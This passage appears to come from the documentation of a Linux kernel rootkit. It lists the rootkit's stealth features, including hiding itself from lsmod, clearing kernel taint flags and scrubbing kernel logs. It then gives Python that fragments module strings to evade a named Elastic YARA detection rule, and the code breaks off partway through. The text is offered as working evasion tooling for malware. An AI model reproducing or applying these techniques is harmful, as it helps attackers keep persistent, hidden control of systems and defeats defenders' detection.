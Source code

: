 - Blocks BPF programs and tracing
- Prevents ftrace manipulation by other users
- Disables module loading via init_module/finit_module hooks
- Filters /proc/kallsyms, /proc/modules, and tracefs
- Taint Clearing: Resets kernel taint flags to hide unsigned module loading
- Log Sanitization: Filters kernel logs (dmesg, /var/log/kern.log) to remove traces of the rootkit
- Module Stealth: Self-hiding from lsmod and /sys/module directory


# Evasion Technique 1: String Obfuscation

### The Problem

Elastic's YARA rules scan for static strings like "GPL" and "kallsyms_lookup_name". A simple strings command on our module would expose these signatures immediately.

The specific rule (5d17781b) detects:

```c
$str = "kallsyms_lookup_name_t"
$lic1 = "license=Dual BSD/GPL"
$lic2 = "license=GPL"
```

### The Solution: Compile-Time String Fragmentation

Our obfuscator breaks strings into separate compile-time constants that the C compiler concatenates during compilation. This prevents contiguous strings from appearing in the binary.

### Implementation

```python
def _obfuscate_license_strings(self, content: str) -> str:
    """
    Obfuscates MODULE_LICENSE/AUTHOR/DESCRIPTION strings
    To evade YARA rule: Linux.Rootkit.Generic (5d17781b)
    
    The rule detects: kallsyms_lookup_name_t AND license=GPL
    """
    
    # 1. Obfuscate MODULE_LICENSE("GPL")
    # Transform: MODULE_LICENSE("GPL") 
    # Into:      MODULE_LICENSE("G" "P" "L")
    content = re.sub(
        r'MODULE_LICENSE\s*\(\s*"GPL"\s*\)',
        'MODULE_LICENSE("G" "P" "L")',
        content
    )
    
    # 2. Obfuscate MODULE_LICENSE("Dual BSD/GPL")
    content = re.sub(
        r'MODULE_LICENSE\s*\(\s*"Dual BSD/GPL"\s*\)',
        'MODULE_LICENSE("Dual" " " "BSD" "/" "GPL")',
        content
    )
    
    # 3. Obfuscate MODULE_AUTHOR
    content = re.sub(
        r'MODULE_AUTHOR\s*\(\s*"([^"]+)"\s*\)',
        lambda m: f'MODULE_AUTHOR("{self._split_string(m.group(1))}")',
        content
    )
    
    # 4. Obfuscate MODULE_DESCRIPTION
    content = re.sub(
```